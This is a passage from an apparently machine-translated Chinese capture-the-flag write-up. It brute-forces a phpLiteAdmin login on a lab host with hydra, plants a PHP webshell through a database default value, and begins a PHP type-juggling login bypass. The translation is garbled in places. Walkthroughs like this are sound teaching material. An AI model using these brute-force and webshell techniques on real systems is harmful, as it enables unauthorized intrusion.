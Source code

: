 它很快就能找到密码：

    root@kali# hydra 10.10.10.43 -l 0xdf -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-11 06:03:28
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 397 login tries (l:1/p:397), ~25 tries per task
    [DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
    [443][http-post-form] host: 10.10.10.43   login: 0xdf   password: password123
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-11 06:03:36
    

### Enumerate phpLiteAdmin

使用密码，我可以登录：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411060847374.png) 

只有一个数据库 ，它没有表。`test`

### 断续器注入

来自 的漏洞描述了如何使用以下步骤利用 phpLite管理员获取 RCE：`24044.txt``searchsploit`

1.  创建一个以 结尾的新数据库：`.php`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411061223961.png) 

1.  我将单击新的数据库以切换到它，并创建一个包含1个文本字段的表，其默认值为基本PHP webshell：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411061614183.png) 

请注意，在PHP中使用它很重要，就像数据库用来定义整个字符串一样：`"``'`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411061634696.png) 

1.  查看页面。

不幸的是，我被困在这里。我可以在以下位置看到新网络外壳的路径：`.php``/var/tmp`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411061953672.png) 

但是我缺乏在浏览器中访问该页面所需的LFI。

### /部门类型混淆

鉴于我已经能够识别管理员的用户名，我也可以尝试在这里暴力破解密码（并且它将与足够大的列表一起使用，例如）。但在这样做之前，我通过将POST数据作为数组发送来检查PHP类型杂耍错误。当我从火狐提交表单时，打嗝将 POST 数据显示为：`rockyou.txt``password`

    username=admin&password=admin
    

如果我将其更改为：
